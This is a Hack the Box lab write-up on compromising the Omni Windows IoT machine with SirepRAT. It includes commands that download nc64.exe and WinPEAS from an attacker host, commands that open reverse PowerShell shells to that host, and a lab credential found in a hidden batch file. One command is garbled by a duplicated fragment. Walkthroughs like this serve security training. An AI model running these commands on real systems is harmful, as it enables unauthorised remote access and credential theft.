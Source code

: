+++
author = "Nick"
categories = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
date = 2021-01-09T15:08:51Z
description = ""
draft = false
thumbnail = "/images/2020/10/info-1.png"
slug = "hack-the-box-omni"
summary = "Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!"
tags = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
title = "Hack the Box - Omni"
url = "/hack-the-box-omni"

+++


Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!

As usual, `nmap` it: `nmap -sC -sV -p- -oA allscan 10.10.10.204`

Here are our results:
```
Nmap scan report for 10.10.10.204
Host is up (0.065s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=10/27%Time=5F98741B%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

```

We have some interesting ports. We see `IIS`, we have some kind of ARCserve service running as well. When we browse to port 8080 we get the auth prompt. The [default credentials](https://learn.adafruit.com/getting-started-with-windows-iot-on-raspberry-pi/prepare-raspberry-pi) are a no go. However, googling around does lead us to a tool that can break the box right open - [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

Now we could just rip the SAM from the machine and call it a day, but I don't think that's the intended method here ;). First we'll `git clone` the repo. The following command can give us some info on where to start looking for our flags.

Command:
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/C cd C:/ \&& dir /b/s *.txt" --v
```

This will tell us where our flags are located, thus giving us an idea of our targets and some user account info.

![](/images/2020/10/image-31.png)

Now we know some basic info and what we're after. How do we obtain it? We have the ability to upload files to the system, in this case we can upload `nc.exe` and get a shell back to us. Now there are a few things to remember in this case. We need a place to put it where we have access, luckily we [know those](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets#applocker-writable-windows-directories). We also need to ensure we format our command correctly and have a `SimpleHTTPServer` running on port 80.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -outfile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -uri 10.10.14.169/nc64.exe" --v
```

![](/images/2020/11/image.png)

We see that our `nc64.exe` file was downloaded to the location we specified. now we simply need to execute the application to shell back to us. First we'll start up out `netcat` listener.

Command:
`nc -lvnp 6666`

Next we'll execute the command to connect back to us.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\> python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.169 6666 -e powershell.exe" --v
```

![](/images/2020/11/image-1.png)

We get our shell back instantly. Now we'll download an enumeration script and see what we can find. In this case we downloaded `WinPEAS`.

Command:
`invoke-webrequest -outfile 'C:\Windows\system32\spool\drivers\color\wp.bat' -uri 10.10.14.169/winPEAS.bat`

Running this files doesn't really help us much though. It's missing some components that are not included in the IoT Windows 10 version. Looks like we'll enumerate by hand. The first thing I did was search for `.bat` and `.txt` files.

Command:
`get-childitem -Path C:\ -Include *.bat* -recurse -erroraction Silentlycontinue`

Nothing too useful there. We'll repeat the steps this time, with hidden flag enabled as well as a time filter. We essentially want items that have been modified after the creation of the box. This way we can eliminate potential junk files from an image.

Command:
`get-childitem -Path C:\ -include *.bat*,*.txt* -recurse -erroraction silentlycontinue -hidden| ? {$_.lastwritetime -gt '8/20/20'}`

This finds an interesting file - `r.bat` - in an interesting location.

![](/images/2020/11/image-2.png)

When we look in the file, we see some credentials!

![](/images/2020/11/image-3.png)

Now with some credentials, we can try to access that page being hosted on `8080`. Sure enough, we get in!

![](/images/2020/11/image-4.png)

Now poking around this system, we see there is a function to run commands. Well great but it's possible that we are going to only run our command as our current user. Now, we can try to login to this portal as the administrator credentials that we just found. Sure enough, they work! Now, we can run commands as administrator! Let's create another shell back, this time with admin priv's.

Command:
`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.169 7777 -e powershell.exe`

We also want to ensure that we have our listener running.

Command:
`nc -lvnp 7777`

![](/images/2020/11/image-5.png)

Sure enough, we catch our shell back!

![](/images/2020/11/image-6.png)

With admin at our disposal, we check the `root.txt` file. Looks like it's a XML file that needs to be run through powershell to get the value. Fun. We can quickly get our value by using `import-clixml`, you can read up on that [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/import-clixml?view=powershell-7).

Commands:
`$cred = import-clixml -Path C:\Data\Users\Administrator\root.txt`
`$cred.GetNetworkCredential().Password`

I suppose you could have done this first when you get access as `app`, but when I realized you could run commands as app, I jumped right to `admin`. You need to log into the app portal as `app` with `mesh5143` as the password, and catch a shell there as well.




